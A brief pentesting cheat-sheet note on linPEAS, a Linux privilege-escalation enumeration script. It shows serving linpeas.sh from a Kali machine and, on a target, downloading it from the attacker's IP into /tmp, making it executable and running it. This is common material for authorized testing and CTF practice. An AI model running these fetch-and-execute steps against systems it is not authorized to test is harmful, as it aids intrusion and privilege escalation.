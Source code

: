 # linPEAS
- On Kali
```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 80
```

- On Target
```
cd /tmp
wget http://<ip>/linpeas.sh

chmod +x ./linpeas.sh
./linpeas.sh | tee output.txt
less -r output.txt
```

# Links
- https://github.com/carlospolop/PEASS-ng
